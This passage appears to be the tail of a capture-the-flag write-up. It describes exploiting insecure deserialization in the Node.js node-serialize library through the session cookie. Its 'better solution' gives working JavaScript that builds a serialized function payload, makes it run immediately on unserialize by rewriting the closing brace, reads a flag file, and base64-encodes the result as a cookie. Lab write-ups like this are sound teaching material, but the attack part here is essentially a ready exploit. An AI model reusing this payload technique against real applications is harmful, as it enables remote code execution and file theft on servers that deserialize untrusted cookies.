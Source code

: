We can set the resulting payload shown in the console as our `session` Cookie:

![[exploit_dev_environment.png]]

## Attack real target
Attacking the sandbox gave me the flag without any problems

## Better solution (after solving)
```javascript
let serialize = require("node-serialize");

let payload = {
    "username": function () {
        let fs = require('fs');
        let flag = fs.readFileSync('./flag').toString('utf-8');
        console.log('Flag is: ' + flag);

        return flag;
    }
};
let serializedPayload = serialize.serialize(payload);
serializedPayload = serializedPayload.replace('}"}', '}()"}');
console.log("Serialized payload: " + serializedPayload + "\n");
let unserializedPayload = serialize.unserialize(serializedPayload);
console.log(unserializedPayload.username);

console.log("Your payload cookie will be: " + new Buffer.from(serializedPayload, "utf-8").toString("base64"));
```

Can serialize the payload istself without hand crafting.